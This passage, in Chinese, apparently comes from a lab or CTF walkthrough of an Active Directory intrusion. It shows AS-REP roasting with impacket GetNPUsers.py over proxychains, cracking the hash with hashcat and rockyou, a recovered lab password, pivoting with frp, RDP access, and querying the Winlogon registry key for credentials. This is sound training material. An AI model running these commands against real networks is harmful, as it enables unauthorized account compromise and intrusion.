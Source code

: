 这样，我们可以视为获取了一个用户清单。接下来，我们可以使用这个 user.txt 文件来尝试枚举那些未启用预身份验证的账户。通常情况下，预身份验证是默认开启的，但一旦关闭了，攻击者就有可能利用指定的用户名，通过向域控制器的 Kerberos 88 端口请求票据。在这种情况下，域控制器不会执行任何验证，而是直接返回 TGT（Ticket Granting Ticket）和使用用户 Hash 加密的 Login Session Key。攻击者因此可以对获得的用户 Hash 加密的 Login Session Key 进行离线破解。如果字典足够强大，就有可能成功破解获得指定用户的明文密码。

用 impacket 中得

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile user.txt xiaorang.lab/
```

[![](assets/1706513339-af7fbe2fc42bcdd0bee133591d269a30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231705-4bf09d64-bdf0-1.png)

最后得到 zhangxin@XIAORANG.LAB 用户的用户 hash、

用 hashcat 爆破一下

```plain
hashcat -m 18200 1.txt -a 0 ./rockyou.txt  --force
```

```plain
zhangxin@XIAORANG.LAB:strawberry
```

得到账号密码

然后我们换上全局代理，这里我们从 venom 代理换成 frp，因为使用 venom 代理 的时候挂全局代理会不稳定，经常掉线，所以这块的操作我就使用 frp 代理

rdp 连接

登录了 172.22.6.25，然后查看一下用户

```plain
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
